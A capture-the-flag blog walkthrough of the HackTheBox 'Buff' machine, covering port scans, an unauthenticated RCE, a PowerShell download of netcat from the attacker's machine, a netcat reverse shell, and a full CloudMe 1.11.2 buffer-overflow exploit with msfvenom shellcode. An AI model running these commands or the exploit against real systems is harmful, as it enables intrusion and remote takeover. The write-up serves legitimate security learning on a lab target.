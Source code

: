 ```yaml
---
layout: post
title: HackTheBox Buff walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, netcat, plink, powershell, windows, msfvenom]
comments: true
---
```


Buff is a machine on [HackTheBox](https://www.hackthebox.eu/) platform with the IP address 10.10.10.198. The machine is vulnerable to multiple CVE which are easy to find. The machine has been rated Easy by the community. When I wrote this walkthrough, Buff wasn't retired yet. Please don't cheat and solve the box by yourself if you didn't get root flag. The purpose of HacktTheBox is to learn and trying by yourself is the best way to do it.

![info_cart.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3da2ee768f774733bb773b4d7ce5b828.png)


## Post scan
Well, it started with several nmap scan to enumerate ports.


![fast_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8339a19328d74135ac616fd838f2a1ca.png)

I browser to the HTTP proxy and did a full TCP port scan in the background in case I've been missing something important.



![full_nmap.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/547e0902b8a04e2ca0c3a96acaa966fe.png)


Did a last scan to enumerate the version of the services I found.



![detail_nmap.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/348e061499bc40cc8f40b2e155662970.png)


![index_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/47b1d92d2c4d4785b3d3f9b5002627d4.png)

The first thing I tried to find were the technologies they used and their versions so I can search for CVE later. What does the application do? What language is it written in? What server software is the application running on? Do they use a CMS ?

Most of those questions were answered by poking around.

![contact_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/2e368b62d2cf4caebe60de2e5b9ec0a3.png)


![inspectorpng.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/155c34a5c1714eb4a049befe3ff90dbe.png)

## Foothold

I googled "Gym management Software 1.0" for exploits and get an unauthenticated [Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/48506).

![shaun_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/6c57f1e511e74ee5ad430fe7597fe642.png)

Now I can execute command on the server as user Shaun but it's not really convenient because I don't have proper shell. Shaun is an unprivileged user and I need to get an Administrator account to fully control the machine. The next step would be to enumerate the machine to find a way to elevate my privilege but let's get a shell first.

### Upload files 

I created a python web server to extend the folder of the file I wanted to upload on the server.

![local_http_server.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/9e8822b28ea047eebc5fce2fbad00451.png)

Executed the command below to download the file from my machine with the right IP address.
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://YOUR_IP_ADDRESS:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')
```
I upload the first version of Netcat on the server since this version has an option to execute commands.

### Reverse shell

Opened the port 1234 for incoming connection and execute `nc.exe X.X.X.X 1234 -e cmd.exe` with your ip address to establish the reverse shell connection.

![listen_1234.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/9d1a53b7cddc40cfb5c063c935153ec8.png)



### System Information gathering

Ok. So I'm logged in windows x64 machine as Shaun. Let's begin or research from Shaun home directory to see what's there

```cmd
c:\Users\shaun>dir *.txt or *.exe /s /b
...
c:\Users\shaun\Desktop\user.txt
...
c:\Users\shaun\Downloads\CloudMe_1112.exe                                   
```

The command `dir` is used to list files a directory in cmd process. I used the option below to list important files.
- *.txt or *.exe : search for text and executable banry files 
- /s : search recursivly 
- /b : display only the path

## Privilege escalation

I googled "CloudMe_1112.exe" and found this executable were vulnerable to buffer overflow. Since we are in a CTF game, this information probably lead to something...

The executable open the port 8888 on the loopback interface (127.0.0.1), unfortunately I couldn't access this port from my kali machine. I download the [lastest version of plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) which is the command line tool of putty and executed the command below to create a SSH tunnel and get access to the port 8888 from my machine.


`plink.exe -ssh -l kali -pw YOUR_PASSWORD -R YOUR_IP_ADDRESS:8888:127.0.0.1:8888 YOUR_IP_ADDRESS`

### Exploitation 

I downloaded a [POC from exploit-db](https://www.exploit-db.com/exploits/48389) and modified the payload. 

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe YOUR_IP_ADDRESS 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python  -v payload <--- Command I used to create the payload 
payload = b"\xda\xd3\xd9\x74\x24\xf4\xba\x7a\xe7\x80\xb2\x5e"		#<--- Modified payload
payload += b"\x33\xc9\xb1\x3e\x83\xc6\x04\x31\x56\x14\x03\x56"
payload += b"\x6e\x05\x75\x4e\x66\x4b\x76\xaf\x76\x2c\xfe\x4a"
payload += b"\x47\x6c\x64\x1e\xf7\x5c\xee\x72\xfb\x17\xa2\x66"
payload += b"\x88\x5a\x6b\x88\x39\xd0\x4d\xa7\xba\x49\xad\xa6"
payload += b"\x38\x90\xe2\x08\x01\x5b\xf7\x49\x46\x86\xfa\x18"
payload += b"\x1f\xcc\xa9\x8c\x14\x98\x71\x26\x66\x0c\xf2\xdb"
payload += b"\x3e\x2f\xd3\x4d\x35\x76\xf3\x6c\x9a\x02\xba\x76"
payload += b"\xff\x2f\x74\x0c\xcb\xc4\x87\xc4\x02\x24\x2b\x29"
payload += b"\xab\xd7\x35\x6d\x0b\x08\x40\x87\x68\xb5\x53\x5c"
payload += b"\x13\x61\xd1\x47\xb3\xe2\x41\xac\x42\x26\x17\x27"
payload += b"\x48\x83\x53\x6f\x4c\x12\xb7\x1b\x68\x9f\x36\xcc"
payload += b"\xf9\xdb\x1c\xc8\xa2\xb8\x3d\x49\x0e\x6e\x41\x89"
payload += b"\xf1\xcf\xe7\xc1\x1f\x1b\x9a\x8b\x75\xda\x28\xb6"
payload += b"\x3b\xdc\x32\xb9\x6b\xb5\x03\x32\xe4\xc2\x9b\x91"
payload += b"\x41\x3c\xd6\xb8\xe3\xd5\xbf\x28\xb6\xbb\x3f\x87"
payload += b"\xf4\xc5\xc3\x22\x84\x31\xdb\x46\x81\x7e\x5b\xba"
payload += b"\xfb\xef\x0e\xbc\xa8\x10\x1b\xff\x74\xb3\xdc\x61"
payload += b"\xe5\x3b\x6d\x3e\x9d\xcf\xe9\xd1\x3e\x43\xae\x4a"
payload += b"\xb9\xce\x12\xe0\x49\x7d\xc4\x6b\xcd\x21\x74\x0f"
payload += b"\x23\xbf\xf0\xaa\x1b\x0e\x31\x1b\x6a\x40\x1f\x52"
payload += b"\xb8\x8e\x66\xb4\xf4\xfa\xac\x80\xd4\x2f\xa8\xc8"
payload += b"\x77\x5d\x56\x27\x12\xe5\xf3\x37"
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

I executed it and got a shell as Administrator.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c2ee9ee649634840b89d70f9ca4b2ccd.png)

And that’s how I did Buff. This is my first walkthrough, others will be coming soon. I hope you learn something. See you till the next write up.

